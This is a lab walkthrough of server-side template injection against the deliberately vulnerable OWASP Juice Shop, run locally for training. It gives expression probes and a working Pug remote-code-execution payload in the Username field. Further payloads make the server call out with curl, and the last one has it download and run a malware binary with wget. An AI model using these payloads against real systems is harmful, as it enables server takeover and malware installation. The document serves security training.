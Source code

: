 # Server-Side Template Injection (SSTI)

Target - [Juice Shop](https://github.com/juice-shop/juice-shop)

Server-side template injection occurs when user input is unsafely embedded into a server-side template, allowing users to inject template directives. Using malicious template directives, an attacker may be able to execute arbitrary code and take full control of the web server.

**Assumption:** JuiceShop application is up and running. It can be accessed by visiting the URL [http://localhost:3000](http://localhost:3000)

```bash
docker run -itd --rm -p 3000:3000 --name juiceshop bkimminich/juice-shop
```

## Steps:

1. Navigate to http://localhost:3000/
2. Register a new user account (e.g., `ssrf@test.com`) and login.
3. In the top navigation menu, click on "Account" and select your email address (in this case `ssrf@test.com`) to view the "User Profile" page.
4. In the "Username" input field, enter a username and click on "Set Username" button.
5. Notice that a POST request is made to the endpoint http://127.0.0.1:3000/profile

    ```http
    POST /profile HTTP/1.1
    Host: 127.0.0.1:3000
    Content-Length: 82
    ...

    username=mirage
    ```

6. Notice that the parameter "username" accepts arbitrary values, and that this user-provided data is dynamically rendered on the "User Profile" page. Try following payloads:

    ```text
    #{7*7}
    !{7*7}
    *{7*7}
    <%= 7*7 %>
    ${7*7}
    {{7*7}}
    {{7*'7'}}
    ${{7*7}}
    ```
7. Did you find a payload that causes the expression `7*7` to get evaluated as `49`? If yes, identify the template engine being used. This will allow us to prepare template engine-specific payloads.
8. Go to the public GitHub repository of [OWASP Juice Shop](https://github.com/juice-shop/juice-shop) and analyze the code. 
    * Open ["views" folder](https://github.com/juice-shop/juice-shop/tree/master/views). Notice the file extension for `userProfile.pug` file.
    * Open `package.json` file and scroll down to the `dependencies` section. Notice the following entry: `"pug": "^3.0.0"`
9. In Google, search for the keyword `"pug": "^3.0.0"`. The first search result led me to a page (https://security.snyk.io/package/npm/pug/3.0.0) which clearly says that all PUG versions less than 3.0.1 are vulnerable. It also says that the vulnerability can allow an attacker to achieve remote code execution (RCE) on the node.js backend.
10. In Google, search for the keyword `pug remote code execution`. In a few clicks, I successfully reached the following GitHub page that provides a proof of concept (PoC) - https://github.com/pugjs/pug/issues/3312

    ```url
    http://localhost:5000/?p=');process.mainModule.constructor._load('child_process').exec('whoami');_=('
    ```

11. Customize the above PoC and use it in the "Username" field of "User Profile" page in Juice Shop application.

    ```node
    #{process.mainModule.constructor._load('child_process').exec('whoami')}
    ```

    ```http
    POST /profile HTTP/1.1
    Host: 127.0.0.1:3000
    Content-Length: 102
    ...

    username=%23%7Bprocess.mainModule.constructor._load%28%27child_process%27%29.exec%28%27whoami%27%29%7D
    ```

    The "Username" value gets displayed as `[object Object]`, indicating that the code was executed successfully, even though we couldn't view the execution results. It appears to be a **blind remote code execution** vulnerability.

12. Start a local server by running the command `python3 -m http.server 1234`, and send the following payload (after ensuring that the correct IP address of the server has been mentioned):

    ```node
    #{process.mainModule.constructor._load('child_process').exec('curl http://192.168.0.XYZ:1234')}
    ```

    Notice the local server logs to confirm that the command indeed got executed successfully.

    ```bash
    % python3 -m http.server 1234
    Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
    192.168.0.107 - - [30/Jul/2023 06:59:39] "GET / HTTP/1.1" 200 -
    ```

13. Try below payload (at your own risk), and check the Juice Shop server logs.

    ```node
    #{process.mainModule.constructor._load('child_process').exec('wget -O malware https://github.com/juice-shop/juicy-malware/raw/master/juicy_malware_macos_64 && chmod +x malware && ./malware')}
    ```

    ```log
    info: Solved 6-star sstiChallenge (SSTi)
    ```
